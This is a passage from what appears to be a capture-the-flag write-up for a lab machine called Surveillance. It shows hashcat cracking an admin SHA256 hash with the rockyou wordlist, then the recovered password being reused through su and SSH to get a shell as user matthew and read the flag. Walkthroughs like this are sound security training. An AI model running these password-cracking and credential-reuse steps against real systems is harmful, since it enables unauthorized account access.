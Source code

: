       21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated
    
    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...
    

It can’t auto recognize the format. I’ll assume its the simplest one to start
- SHA256 is fast to crack, and I can go back and try to research more if it
doesn’t work.

    
    
    $ hashcat ./admin-sha256.hash -m 1400 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    ...[snip]...
    39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
    ...[snip]...
    

It completes in a matter os seconds.

### Shell

This password works with `su` and the matthew user on Surveillance:

    
    
    www-data@surveillance:~$ su - matthew
    Password: 
    matthew@surveillance:~$
    

It also works over SSH:

    
    
    oxdf@hacky$ sshpass -p 'starcraft122490' ssh matthew@surveillance.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
    ...[snip]...
    matthew@surveillance:~$
    

Either way, I can claim `user.txt`:

    
    
    matthew@surveillance:~$ cat user.txt
    263f2471************************
    

## Shell as zoneminder

### Enumeration

#### General

Matthew’s home directory is very empty:

    
    
    matthew@surveillance:~$ ls -la
    total 28
    drwxrwx--- 3 matthew matthew 4096 Nov  9 12:45 .
    drwxr-xr-x 4 root    root    4096 Oct 17  2023 ..
    lrwxrwxrwx 1 matthew matthew    9 May 30  2023 .bash_history -> /dev/null
    -rw-r--r-- 1 matthew matthew  220 Apr 21  2023 .bash_logout
    -rw-r--r-- 1 matthew matthew 3771 Apr 21  2023 .bashrc
    drwx------ 2 matthew matthew 4096 Sep 19  2023 .cache
    -rw-r--r-- 1 matthew matthew  807 Apr 21  2023 .profile
    -rw-r----- 1 root    matthew   33 Apr 15 22:11 user.txt
    